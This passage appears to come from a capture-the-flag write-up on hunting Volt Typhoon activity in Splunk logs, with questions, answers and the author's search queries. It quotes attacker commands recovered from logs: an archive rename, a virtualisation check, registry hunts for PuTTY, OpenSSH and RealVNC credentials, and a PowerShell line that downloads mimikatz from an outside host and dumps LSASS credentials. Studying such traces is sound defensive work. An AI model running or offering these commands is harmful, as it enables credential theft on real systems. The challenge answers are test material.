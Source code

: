 I thought in doing a free search for `Remove-Item`, because the MRU is located in the registry path `HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`, where we can only remove items from from a registry location using the `Remove-ItemProperty`. The attacker effectively removed the MRU record using the cmdlet `Remove-ItemProperty
![[Pasted image 20250620192317.png]]
### 7. The APT continues to cover their tracks by renaming and changing the extension of the previously created archive. What is the file name (with extension) created by the attackers?
R= cl64.gif

The previously created file was `cisco-up.7z` (Q4), if we do a free search for it, there's a log indicating that the attacker renamed it to `cl64.gif` using the command below.
```
cmd.exe /c ren \\webserver-01\c$\inetpub\wwwroot\cisco-up.7z cl64.gif
```

![[Pasted image 20250620194016.png]]

### 8. Under what regedit path does the attacker check for evidence of a virtualized environment?
R= HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control

Doing a free search for `HKEY_LOCAL_MACHINE`, as there's where the configuration of the computer is stored in, one of the three matches shows that the attacker executed 
```
Get-ItemProperty -Path "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control" | Select-Object -Property *Virtual*

```

> After finding the answer, I tried to google that method to confirm that it is documented as evidence of a virtualized environment but got no luck. I just tested my lick when doing that free text search.
![[Pasted image 20250620194615.png]]

# Credential access

### 9. Using reg query, Volt Typhoon hunts for opportunities to find useful credentials. What three pieces of software do they investigate?
R= `openssh`, `putty`, `realvnc`

I searched for free text `reg query`, as the field that contained the full command wasn't parsed, I leveraged the `reg` built-in Splunk command to create a new field named `raw` leveraging `Named Capture Groups` that matches the entire command. As seen, the software investigated was `openssh`, `putty`, `realvnc`
```
index=* "*reg query*" 
| rex field=_raw "(?<cmd>reg query\s.*)"
| table cmd // show only the field cmd
| reverse
```
![[Pasted image 20250620200537.png]]
### 10. What is the full decoded command the attacker uses to download and run mimikatz?
R= `Invoke-WebRequest -Uri "http://voltyp.com/3/tlz/mimikatz.exe" -OutFile "C:\Temp\db2\mimikatz.exe"; Start-Process -FilePath "C:\Temp\db2\mimikatz.exe" -ArgumentList @("sekurlsa::minidump lsass.dmp", "exit") -NoNewWindow -Wait
